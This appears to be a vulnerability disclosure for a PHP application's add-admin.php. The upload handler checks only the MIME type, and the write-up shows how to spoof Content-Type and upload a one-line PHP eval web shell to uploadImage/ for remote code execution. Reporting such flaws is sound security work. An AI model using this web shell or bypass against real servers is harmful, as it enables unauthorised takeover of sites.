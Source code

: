 User can be added under the `add-admin.php` route，and there are any pictures to upload

![image-20250401224104067](https://bu.dusays.com/2025/04/01/67ebfdd86e2d8.png)

Locate L28-L40 of add-admin.php source code

```
$file_type = $_FILES['avatar']['type']; //returns the mimetype
$allowed = array("image/jpg", "image/gif","image/jpeg", "image/webp","image/png");
if(!in_array($file_type, $allowed)) {
$_SESSION['error'] ='Only jpg,jpeg,Webp, gif, and png files are allowed. ';

// exit();

}else{
$image= addslashes(file_get_contents($_FILES['avatar']['tmp_name']));
$image_name= addslashes($_FILES['avatar']['name']);
$image_size= getimagesize($_FILES['avatar']['tmp_name']);
move_uploaded_file($_FILES["avatar"]["tmp_name"],"uploadImage/" . $_FILES["avatar"]["name"]);			
$location="uploadImage/" . $_FILES["avatar"]["name"];
```

You can see that only the MIME type of the uploaded file is detected, and the uploaded file is placed in the `uploadImage` directory. Capture the packet and change `Content-Type` to `image/jpg` to bypass it. You can fill in other information as you like. The email address must comply with the regulations, such as 1@qq.com, and upload 1.php

```
GIF89a
<?= @eval($_POST[1]);?>
```

![image-20250401195430147](https://bu.dusays.com/2025/04/01/67ebfde2e4acd.png)

Visit `uploadImage/1.php` to rce

![image-20250401195604897](https://bu.dusays.com/2025/04/01/67ebfdec36b8e.png)
